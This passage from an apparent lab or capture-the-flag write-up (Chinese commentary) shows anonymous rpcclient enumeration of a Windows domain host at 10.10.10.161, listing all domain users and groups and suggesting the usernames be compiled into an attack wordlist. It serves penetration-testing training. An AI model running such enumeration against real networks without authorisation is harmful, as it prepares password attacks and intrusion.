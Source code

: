```bash
└─# rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

可尝试把这些用户收集整理成字典，接下来枚举组

```bash
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Organization Management] rid:[0x450]
group:[Recipient Management] rid:[0x451]
group:[View-Only Organization Management] rid:[0x452]
group:[Public Folder Management] rid:[0x453]
group:[UM Management] rid:[0x454]
group:[Help Desk] rid:[0x455]
group:[Records Management] rid:[0x456]
group:[Discovery Management] rid:[0x457]
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
```